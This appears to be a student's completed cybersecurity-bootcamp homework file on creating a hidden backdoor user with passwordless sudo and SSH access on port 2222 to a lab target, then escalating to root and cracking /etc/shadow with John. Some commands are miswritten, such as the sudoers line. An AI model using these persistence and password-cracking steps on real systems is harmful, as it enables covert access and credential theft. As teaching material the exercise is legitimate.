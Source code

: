 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. 
    - `sudo adduser sysd`

    <br>

![sudo](Images\sudo_adduser.PNG)

2. Give your secret user a password: 
    - `sudo passwd sysd ` 

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 987 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 987 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`
   -  `Sysd ALL=(ALL:ALL) NO PASSWD:ALL`

6. Test that `sudo` access works without your password:

    -   `sudo -l`

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `sudo nano /etc/ssh/sshd_config`

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh `

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222 `

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su` 
    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


